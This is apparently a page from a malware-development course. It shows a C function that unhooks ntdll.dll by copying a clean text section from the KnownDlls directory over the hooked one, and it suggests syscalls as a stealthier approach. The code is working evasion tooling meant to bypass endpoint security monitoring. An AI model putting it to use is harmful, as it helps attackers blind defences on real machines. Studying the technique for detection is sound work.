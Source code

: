 ```
//---------------------------------------------------------------------------------------------------------------------------

	// small check to verify that all the required information is retrieved
	if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
		return FALSE;

	// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
	if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
		return FALSE;

//---------------------------------------------------------------------------------------------------------------------------

	DWORD dwOldProtection = NULL;

	// making the text section writable and executable
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// copying the new text section
	memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);

	// rrestoring the old memory protection
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

```
### **Improving The Implementation**

The current implementation unhooks `ntdll.dll` using WinAPIs. For a stealthier implementation, direct or indirect syscalls should be used to perform unhooking. This will be left as an objective for the reader.

### **Demo**

The mapped ntdll.dll file from the KnownDlls directory.

[![](85%20NTDLL%20Unhooking%20-%20From%20KnownDlls%20Directory%20db89a0c0abe54a799e9816e7a2237546/ntdll-unhooking-knowndlls-218529831-d561ae0a-5e2b-4da9-9eb6-a4301c970693.png)](85%20NTDLL%20Unhooking%20-%20From%20KnownDlls%20Directory%20db89a0c0abe54a799e9816e7a2237546/ntdll-unhooking-knowndlls-218529831-d561ae0a-5e2b-4da9-9eb6-a4301c970693.png)The hooked ntdll.dll text section to be replaced.

[![](85%20NTDLL%20Unhooking%20-%20From%20KnownDlls%20Directory%20db89a0c0abe54a799e9816e7a2237546/ntdll-unhooking-knowndlls-318529838-7c90c7e7-efd9-4dcb-965f-0b562e1e32d5.png)](85%20NTDLL%20Unhooking%20-%20From%20KnownDlls%20Directory%20db89a0c0abe54a799e9816e7a2237546/ntdll-unhooking-knowndlls-318529838-7c90c7e7-efd9-4dcb-965f-0b562e1e32d5.png)The text section base address of the unhooked ntdll.dll.
